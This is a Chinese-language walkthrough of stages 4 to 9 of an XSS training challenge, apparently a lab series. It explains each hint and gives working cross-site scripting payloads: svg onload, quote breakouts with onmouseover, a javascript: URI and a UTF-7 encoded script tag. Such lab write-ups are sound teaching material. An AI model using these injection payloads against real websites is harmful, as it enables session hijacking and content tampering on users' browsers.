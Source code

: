 ## Stage 4

`Hint: invisible input field`

查看源代码, 有个 hackme 参数, 抓包更改即可.

`<svg/onload=alert(document.domain)>`

## Stage 5

`Hint: length limited text box`

跟 `Stage 2` 一样.

审查元素更改 maxlength 或者抓包修改参数.

`"><svg/onload=alert(document.domain)>`

`1 onmouseover="alert(document.domain)`

## Stage 6

`Hint: event handler attributes`

尖括号被过滤了, 那就用 onmouseover.

还是要注意引号的闭合.

`" onmouseover="alert(document.domain)`

## Stage 7

`Hint: nearly the same... but a bit more tricky.`

这题跟上一题差不多, 不过参数间用的不是双引号, 直接就是空格.

`1 onmouseover=alert(document.domain)`

## Stage 8

`Hint: the 'javascript' scheme.`

提交后会生成 a 标签, href 为我们输入的参数.

javascript 伪协议.

`javascript:alert(document.domain)`

## Stage 9

`Hint: UTF-7 XSS`

这道题考的是 IE 浏览器遗留的 UTF-7 问题.

当 response 响应头的 Content-Type 未指定 charset 或为错误的 charset 时, IE 浏览器将返回页面中的编码当做 UTF-7 字符串执行.

```
<?php
header('Content-Type: text/html;charset=sb');
?>

+/v8 +ADw-script+AD4-alert(0)+ADw-/script+AD4-
```
